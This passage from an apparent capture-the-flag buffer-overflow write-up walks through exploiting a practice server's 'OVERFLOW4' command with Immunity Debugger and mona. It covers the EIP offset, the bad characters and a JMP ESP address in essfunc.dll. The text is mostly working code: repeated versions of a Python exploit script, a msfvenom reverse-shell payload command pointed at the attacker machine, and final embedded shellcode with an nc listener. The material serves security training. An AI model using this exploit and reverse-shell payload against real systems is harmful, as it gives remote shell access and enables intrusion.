p3Bp4Bp5Bp6Bp7Bp8Bp9Bq0Bq1Bq2Bq3Bq4Bq5Bq6Bq7Bq8Bq9Br0Br1Br2Br3Br4Br5Br6Br7Br8Br9Bs0Bs1Bs2Bs3Bs4Bs5Bs6Bs7Bs8Bs9Bt0Bt1Bt2Bt3Bt4Bt5Bt6Bt7Bt8Bt9Bu0Bu1Bu2Bu3Bu4Bu5Bu6Bu7Bu8Bu9Bv0Bv1Bv2Bv3Bv4Bv5Bv6Bv7Bv8Bv9Bw0Bw1Bw2Bw3Bw4Bw5Bw6Bw7Bw8Bw9Bx0Bx1Bx2Bx3Bx4Bx5Bx6Bx7Bx8Bx9By0By1By2By3By4By5By6By7By8By9Bz0Bz1Bz2Bz3Bz4Bz5Bz6Bz7Bz8Bz9Ca0Ca1Ca2Ca3Ca4Ca5Ca6Ca7Ca8Ca9Cb0Cb1Cb2Cb3Cb4Cb5Cb6Cb7Cb8Cb9Cc0Cc1Cc2Cc3Cc4Cc5Cc6Cc7Cc8Cc9Cd0Cd1Cd2Cd3Cd4Cd5Cd6Cd7Cd8Cd9Ce0Ce1Ce2Ce3Ce4Ce5Ce6Ce7Ce8Ce9Cf0Cf1Cf2Cf3Cf4Cf5Cf6Cf7Cf8Cf9Cg0Cg1Cg2Cg3Cg4Cg5Cg6Cg7Cg8Cg9Ch0Ch1Ch2Ch3Ch4Ch5Ch6Ch7Ch8Ch9Ci0Ci1Ci2Ci3Ci4Ci5Ci6Ci7Ci8Ci9Cj0Cj1Cj2Cj3Cj4Cj5Cj6Cj7Cj8Cj9Ck0Ck1Ck2Ck3Ck4Ck5Ck6Ck7Ck8Ck9Cl0Cl1Cl2Cl3Cl4Cl5Cl6Cl7Cl8Cl9Cm0Cm1Cm2Cm3Cm4Cm5Cm6Cm7Cm8Cm9Cn0Cn1Cn2Cn3Cn4Cn5Cn6Cn7Cn8Cn9Co0Co1Co2Co3Co4Co5Co6Co7Co8Co9Cp0Cp1Cp2Cp3Cp4Cp5Cp6Cp7Cp8Cp9Cq0Cq1Cq2Cq3Cq4Cq5Cq6Cq7Cq8Cq9Cr0Cr1Cr2Cr3Cr4Cr5Cr6Cr7Cr8Cr9"
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

On kail run the exploit again then in mona run the following to get the offset for EIP. We were able to find the offset was 2026.

**Kali**

```
python exploit.py $VICTIM 1337
```

**Immunity Debugger**

```
!mona findmsp -distance 2100
```

<figure><figcaption></figcaption></figure>

### Finding Bad Characters

**Kali**

Now we changed the program to look for bad characters so we don't later use those bad characters when generating our payload. We do this by setting our payload to all possible characters, than follow EIP to see which characters aren't showing up. To do this we just have to keep running our exploit and removing the bad characters one by one. The bad characters found were: \x00\xa9\xcd\xd4

```
python exploit.py $VICTIM 1337
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

#bad chars found: \x00\xa9\xcd\xd4
badChars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f"
"\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f"
"\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f"
"\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f"
"\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f"
"\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xaa\xab\xac\xad\xae\xaf"
"\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xce\xcf"
"\xd0\xd1\xd2\xd3\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef"
"\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW4 "
	offset = 2026
	overflow = "A" * offset
	retn = "BBBB"
	padding = ""
	payload = badChars
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

### Finding a Jump Point

Now we need to find a place to jump to to run our payload.  We find there is only one place that will meets our conditions that we need which is an address with  SafeSEH, ASLR, and NXCompat disabled and the  memory address doesn't start with 0x00. ex: 0x0040000 won't work, 0x100000 will work. essfunc.dll meets this criteria.&#x20;

**Immunity Debugger**

```
!mona modules
```

<figure><figcaption></figcaption></figure>

We find that essfunc.dll has 9 possible JMP ESPs to use. So we will start with the first one which is 0x625011af but when we add it to our code we need it in little endian format so it becomes \xaf\x11\x50\x62.

**Immunity Debugger**

```
!mona find -s "\xff\xe4" -m essfunc.dll
```

<figure><figcaption></figcaption></figure>

### Exploit

Now that we have the return address to use, we just need to generate our payload without using the bad characters found previously. I also added 16 NOPs before the payload as suggested in the room. All that is left is to  &#x20;

```
msfvenom -p windows/shell_reverse_tcp LHOST=$KALI LPORT=4444 EXITFUNC=thread -b "\x00\xa9\xcd\xd4" -f c
```

#### **exploit.py - Code Changes #3**

```
import socket, time, sys

#bad chars found: \x00\xa9\xcd\xd4
try:
	ip = str(sys.argv[1])
	port = int(sys.argv[2])
	print (ip+":"+str(port))

	prefix = "OVERFLOW4 "
	offset = 2026
	overflow = "A" * offset
	retn = "\xaf\x11\x50\x62"
	padding = "\x90" * 16
	payload = ("\xbd\x5d\x45\xd7\x0c\xdb\xc7\xd9\x74\x24\xf4\x58\x2b\xc9\xb1"
"\x52\x83\xc0\x04\x31\x68\x0e\x03\x35\x4b\x35\xf9\x39\xbb\x3b"
"\x02\xc1\x3c\x5c\x8a\x24\x0d\x5c\xe8\x2d\x3e\x6c\x7a\x63\xb3"
"\x07\x2e\x97\x40\x65\xe7\x98\xe1\xc0\xd1\x97\xf2\x79\x21\xb6"
"\x70\x80\x76\x18\x48\x4b\x8b\x59\x8d\xb6\x66\x0b\x46\xbc\xd5"
"\xbb\xe3\x88\xe5\x30\xbf\x1d\x6e\xa5\x08\x1f\x5f\x78\x02\x46"
"\x7f\x7b\xc7\xf2\x36\x63\x04\x3e\x80\x18\xfe\xb4\x13\xc8\xce"
"\x35\xbf\x35\xff\xc7\xc1\x72\x38\x38\xb4\x8a\x3a\xc5\xcf\x49"
"\x40\x11\x45\x49\xe2\xd2\xfd\xb5\x12\x36\x9b\x3e\x18\xf3\xef"
"\x18\x3d\x02\x23\x13\x39\x8f\xc2\xf3\xcb\xcb\xe0\xd7\x90\x88"
"\x89\x4e\x7d\x7e\xb5\x90\xde\xdf\x13\xdb\xf3\x34\x2e\x86\x9b"
"\xf9\x03\x38\x5c\x96\x14\x4b\x6e\x39\x8f\xc3\xc2\xb2\x09\x14"
"\x24\xe9\xee\x8a\xdb\x12\x0f\x83\x1f\x46\x5f\xbb\xb6\xe7\x34"
"\x3b\x36\x32\x9a\x6b\x98\xed\x5b\xdb\x58\x5e\x34\x31\x57\x81"
"\x24\x3a\xbd\xaa\xcf\xc1\x56\xdf\x05\xf0\x32\xb7\x1b\x02\x2a"
"\x14\x95\xe4\x26\xb4\xf3\xbf\xde\x2d\x5e\x4b\x7e\xb1\x74\x36"
"\x40\x39\x7b\xc7\x0f\xca\xf6\xdb\xf8\x3a\x4d\x81\xaf\x45\x7b"
"\xad\x2c\xd7\xe0\x2d\x3a\xc4\xbe\x7a\x6b\x3a\xb7\xee\x81\x65"
"\x61\x0c\x58\xf3\x4a\x94\x87\xc0\x55\x15\x45\x7c\x72\x05\x93"
"\x7d\x3e\x71\x4b\x28\xe8\x2f\x2d\x82\x5a\x99\xe7\x79\x35\x4d"
"\x71\xb2\x86\x0b\x7e\x9f\x70\xf3\xcf\x76\xc5\x0c\xff\x1e\xc1"
"\x75\x1d\xbf\x2e\xac\xa5\xdf\xcc\x64\xd0\x77\x49\xed\x59\x1a"
"\x6a\xd8\x9e\x23\xe9\xe8\x5e\xd0\xf1\x99\x5b\x9c\xb5\x72\x16"
"\x8d\x53\x74\x85\xae\x71"
		)
	postfix = ""

	buffer = prefix + overflow + retn + padding + payload + postfix

	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	try:
		s.connect((ip, port))
		print("Sending evil buffer...")
		s.send(bytes(buffer + "\r\n", "latin-1"))
		print("Done!")
	except:
 		print("Could not connect.")
except:
    print ("\nCould not connect!")
    sys.exit()
```

**Kali #1**

```
nc -lvnp 4444
```

**Kali #2**

```
python exploit.py $VICTIM 1337
```

<figure><figcaption></figcaption></figure>


